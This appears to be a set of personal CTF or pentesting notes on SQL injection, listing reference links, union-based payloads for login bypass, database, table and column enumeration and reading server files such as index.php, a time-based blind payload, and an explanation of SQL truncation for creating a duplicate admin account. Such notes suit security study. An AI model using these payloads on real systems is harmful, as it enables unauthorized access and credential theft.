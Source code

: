 ## delete


# SQL Injection(SQLi)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)
- [NetSPI](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)
- https://tib3rius.com/sqli
- portswigger
- https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/

dbfiddle.uk

We want to find credentials exploring possible DBs and tables. Another way is to read files.


## manual:

admin' or 1=1 LIMIT 1-- -


- `admin' union select 1;-- -`
- FIND ALL DBS:
  `admin' UNION SELECT group_concat(schema_name) FROM information_schema.schemata;-- -`
- FIND TABLES IN DB:
  `admin' UNION SELECT group_concat(table_name) FROM information_schema.tables where table_schema='november';-- -`
- FIND COLUMNS IN TABLE:
  `admin' UNION SELECT group_concat(table_name, ':', column_name) FROM INFORMATION_SCHEMA.columns WHERE table_schema='november';-- -`
- FIND VALUES:
  `admin' UNION SELECT group_concat(one) FROM flag;-- -`
- READ FILES:
  `admin' UNION SELECT load_file('/var/www/html/index.php');-- -`

## manual time based:
- FIND DB NUMBER OF CHARACTERS:
- `1%20OR%20IF(LENGTH((SELECT%20database()))=5,SLEEP(1),0)%23`


## SQL Truncation

SQL truncation is a flaw in the database configuration in which an input is truncated (deleted) when added to the database due to surpassing the maximum defined length. The database management system truncates any newly inserted values to fit the width of the designated column size.

So, where can we find this vulnerability ?? it can be found in any web application that allows users to sign up/register for new accounts.

If the database considers spaces as valid characters between inputs and doesn’t do any trimming before storing the values, an attacker can create a duplicate accounts of an existing user like ‘’admin’’ with many additional spaces and characters — ‘’admin++++++random’’ that are too long to be stored in the specified column and gets deleted after passing the max length.
